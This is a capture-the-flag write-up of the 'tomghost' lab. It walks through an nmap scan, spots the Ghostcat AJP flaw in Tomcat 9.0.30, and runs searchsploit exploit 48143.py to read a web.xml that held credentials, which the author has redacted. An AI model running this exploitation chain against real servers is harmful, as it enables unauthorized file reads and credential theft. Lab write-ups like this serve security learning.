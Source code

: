 # tomghost

I have to find out what is on the server. For this, we can use an nmap scan with the following command:

```bash
sudo nmap -T4 -A IP_address > nmap 
```

We then read the nmap file to see what the server has on it:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 04:18 GMT
Nmap scan report for 10.10.151.10
Host is up (0.20s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.30 seconds
```

We can see that there are 4 main ports available. Since there is no port 80 \(regular HTTP port\), we have to look at other ports to see if there is a website for any of these services. Port 8080, had this on the site:

![](../../.gitbook/assets/image.png)

We now know that they are using the Apache version Tomcat 9.0.30. I will try to use msfconsole \(Metasploit\) in order to find out if there is a vulnerability against this. Searching on exploit-db.com led me to this:

![exploit-db results for Tomcat](../../.gitbook/assets/image%20%284%29.png)

At this point, I am thinking that "Ghostcat" might be my way in. I then used searchsploit in order to see what exploits are currently on my ParrotOS relating to this:

![searchsploit output](../../.gitbook/assets/image%20%285%29.png)

I will then copy this file to my local directory so I can use it for the exploit:

![Copying to local directory](../../.gitbook/assets/image%20%281%29.png)

I did get lost here because I did find the right exploit, but it was not working for some reason. I did have to search online at this part, and came upon this [website](https://cyber-99.co.uk/thm-tomghost), and I saw they were using a command similar to mine with only one change: they were using the "python2.7" command instead of the regular "python" command. I entered the following:

```c
python2.7 48143.py 10.10.151.10
```

The output to the command was the following:

```markup
Getting resource at ajp13://10.10.151.10:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	username:password <!----I took out the username and password----->
  </description>

</web-app>

```

After this, I saved the username and password. I had to see where the username and password would fit into. 

